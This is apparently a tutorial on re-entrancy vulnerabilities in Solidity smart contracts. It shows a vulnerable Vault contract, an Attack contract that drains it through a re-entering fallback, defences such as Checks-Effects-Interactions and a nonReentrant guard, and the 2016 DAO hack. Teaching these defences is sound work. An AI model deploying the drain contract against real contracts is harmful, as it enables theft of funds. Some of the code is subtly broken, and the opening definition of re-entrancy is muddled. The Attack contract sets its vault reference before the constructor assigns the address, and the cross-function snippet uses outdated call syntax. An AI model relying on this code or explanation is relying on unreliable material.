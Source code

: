 # Re-Entrancy

## Introduction
Re-entrancy occurs in single-threaded computing environments when the execution stack jumps or calls subroutines before returning to the initial execution. 

Let’s break down this statement to understand it better. A “single-threaded computing environment” is a computer program that can process each computation from beginning to completion before the next computation can begin to be processed. 

Reentrancy is when the code to be executed forwards the execution stack, i.e., the flow of execution of the code to a subroute, where the subroute performs its operation and returns the flow of execution back to the main code, thus the name re-entrancy.

In layman’s terms, there is only one way by which the execution of a code can be done. 

Re-entrancy occurs in a smart contract when control of the flow in a contract is passed from trusted code to untrusted external code. If a malicious actor gets hold of the flow of execution in the middle of computation, which is a transaction when we are talking about smart contracts, they can manipulate the transaction to their benefit. More about this later in the lesson.

By design, the EVM and most other blockchain computers perform single-thread computation. Single-thread execution ensures smart contracts’ atomicity and eliminates some race conditions. But on the other hand, because of it, contracts are vulnerable to poor execution orders, which may result in re-entrancy.

## Reentrancy in Solidity Smart Contracts
Let’s create a reentrancy scenario to better understand it. Below is a vault contract that remembers the balance of each address that deposits ETH to it and lets them withdraw it when they want to. 

The **deposit ()** function lets an account send ETH when calling the function. It saves the amount sent by the sender in a mapping called **balances**. 

The **withdraw()** function checks the amount against the address of the caller in the **balances** mapping, sends an equivalent amount of ETH from the contract to the caller, and then updates the balance of the caller to zero.

```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.6;
    
    contract Vault {
        mapping(address => uint) public balances;
        
        function deposit() public payable {
            balances[msg.sender] += msg.value;
        }
        
        function withdraw() public {
            uint bal = balances[msg.sender];
            require(bal > 0);
        
            (bool sent, ) = msg.sender.call{value: bal}("");
            require(sent, "Failed to send Ether");
        
            balances[msg.sender] = 0;
        }
    }
```

Let’s try and write a contract that can empty up all the ETHs deposited in this contract using the knowledge that smart contracts are single-threaded computers, and once the flow of code is passed to an external code, the external code can manipulate the flow to its benefit.

So, how do we do it? Do you see the `msg.sender.call` method in the contract? It is a common way of sending ETH to other contracts. This method forwards the flow of the function to the `fallback()` function of the called contract. Let’s write a contract that tries to steal the funds of this contract when it gets the flow of execution to its `fallback()` function. 

```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.6;
    
    interface IVault{
        function deposit() external payable;
        function withdraw() external;
    }
    
    contract Attack {
        address vaultAddress;
        constructor(address _vaultAddress){
            vaultAddress =  _vaultAddress;
        }
        IVault vault = IVault(vaultAddress);
        function attack() external payable {
            require(msg.value >= 1 ether);
            vault.deposit{value: 1 ether}();
            vault.withdraw();
        }
            fallback() external payable {
            if (address(vault).balance >= 1 ether) {
                vault.withdraw();
            }
        }
    }
```

To attack the vault contract, you have to send 1 ether when you call the `attack()` function.

In the `fallback()` function, we check the balance of the vault contract, and if the balance is not zero, we call the `withdraw()` function again.

## Prevention

Now that we’ve seen how a re-entrancy attack works, let’s take a look at some of the techniques that can be used to avoid re-entrancy.

### Checks-Effects-Interactions Pattern

A quick and efficient way to stop re-entrancy is to use the Checks-Effects-Interactions pattern. In this method, you write the code inside your function in such a manner that:

- First, all the conditions for the caller to call that function are checked. 
- Second, all the state modifications required in the function are done.
- Third, external calls to interact with the other contract are made.

Let’s rewrite the vault in the previous section according to the **Checks-Effects-Interactions** pattern to better understand the pattern.

```solidity
    function withdrawWithCEI() public {
        uint bal = balances[msg.sender];
        // Checks:
        require(bal > 0); 
        // Effects:
        balances[msg.sender] = 0;
        // Interaction:
        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");
    }
```

Because we are updating the caller’s balance before passing the flow of execution to the external attacker contract, if the external contract tries to re-enter, the execution gets stopped by the require statement at the beginning. 

### Openzeppelin’s Reentrancy Guard
Openzeppelin’s Reentrancy Guard1 uses a gas optimized mutex (mutually exclusive flag) pattern, which is a common method for limiting reentrancy. In this method, a lock is placed around the function call that is susceptible to reentrancy using a modifier called **nonReentrant**. When the vulnerable function execution starts, the lock is open, thus letting the execution happen, but it is immediately locked as the execution of the function starts and so long as the execution of the function goes on. Once the complete execution is finished, the lock is again opened.

Because we are turning the flag to locked as soon as we get the execution started, if a malicious external contract tries to re-enter the function in the middle of execution, the require statement that checks if the flag is unlocked will terminate the execution. Thanks to Openzeppelin’s gas-optimized and battle-tested contract, this is a very practical way to implement a reentrancy guard. Simply import the Reentrancy Guard contract and apply the nonReentrant modifier to all the vulnerable functions is all that is required.

Please now try to imitate the attack in the previous section by putting the aforementioned strategies into practice to see them in action. 

## Types of Re-entrancy Attacks

- **Single Function Attack:** This is an attack where the malicious contract re-enters the same function from which it had made the external call to itself. The vault contract in the previous section is an example of such an attack. 
- **Cross-function Reentrancy:** This is an attack where the function from which the malicious external call is made is different from the function to which the re-entry is made by the malicious contract, but both the functions use require statements that check the same state variable. Below is an example of a cross function re-entrancy prone code. 

```solidity
    mapping (address => uint) private userBalances;
    function transfer(address to, uint amount) {
        if (userBalances[msg.sender] >= amount) {
            userBalances[to] += amount;
            userBalances[msg.sender] -= amount;
        }
    }

    function withdrawBalance() public {
        uint amountToWithdraw = userBalances[msg.sender];
        (bool success, ) = msg.sender.call.value(amountToWithdraw)("");
        // At this point, the caller's code is executed, and can call transfer()
        require(success);
        userBalances[msg.sender] = 0;
    }
```

## Real World Example

### DAO Hack
Ethereum’s DAO (Decentralized Autonomous Organisation) was hacked for an equivalent of $60 million in Ether in 2016. Ethereum’s DAO was a project designed to act as an investor-directed venture capital firm where members in the network could vote on initiatives to invest in.

The smart contract in which the funds were locked was vulnerable to a reentrancy attack due to a recursive call bug in the code. The code shown as the example of cross function re-entrancy in the previous section is a simplified version of the DAO’s vulnerable code. The hacker was able to attack the contract and drain 3.6 million ethers.